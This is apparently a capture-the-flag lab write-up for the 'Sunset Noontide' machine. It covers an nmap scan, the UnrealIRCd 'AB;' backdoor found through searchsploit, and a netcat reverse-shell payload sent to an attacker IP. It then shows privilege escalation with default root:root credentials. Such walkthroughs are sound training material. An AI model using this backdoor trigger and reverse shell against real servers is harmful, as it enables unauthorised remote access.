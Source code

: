 Then, logging in with the newly created user gives the root shell and subseqeuntly the root flag.

---

# Sunset Noontide

## Enumeration

Machine IP &rarr; `192.168.56.120`

### Network Scan

Nmap scan &rarr; `nmap -sC -sV -Pn -p- -A -o nmap.txt 192.168.56.120`

OS Detection &rarr;  `Host: irc.foonet.com`

| **Port**         | **Service** | **Other details (if any)** |
| ---------------- | ----------- | -------------------------- |
| 6667, 6697, 8067 | IRC         | UnrealIRCd                 |

## Exploitation

The only service is an IRC, so searched exploit db via searchsploit for an exploit. This returned 4 entries. Looking at the code for the first one, there seems to be a backdoor which allows execution of shell commands when anything start with `AB;`.

Therefore, access can be checked by connecting to the IRCd via netcat and sending the the payload as `AB;echo "a" | nc 192.168.49.56 3002`. With a listener active on the attacking machine with the IP as in the payload, a conection and the letter "a" would be received.

Therefore, a similar payload can be used to receive shell via nc &rarr; `AB;nc 192.168.49.56 3002 -e /bin/bash`. This gives a shell as the `server` user. The home directory has the user flag.

## Privilege Escalation

With the shell of the `server` user, trying default creds of `root:root` works for getting the shell to root. This gives the root flag.

---
